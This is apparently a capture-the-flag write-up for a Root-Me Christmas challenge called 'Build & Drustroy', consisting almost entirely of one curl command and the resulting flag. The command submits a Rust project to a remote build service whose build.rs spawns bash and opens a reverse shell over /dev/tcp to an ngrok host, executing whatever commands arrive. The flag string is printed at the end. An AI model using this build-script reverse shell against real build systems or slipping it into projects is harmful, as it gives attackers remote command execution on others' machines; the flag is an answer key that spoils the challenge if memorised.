# Challenge Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}' --output binary
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>


Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
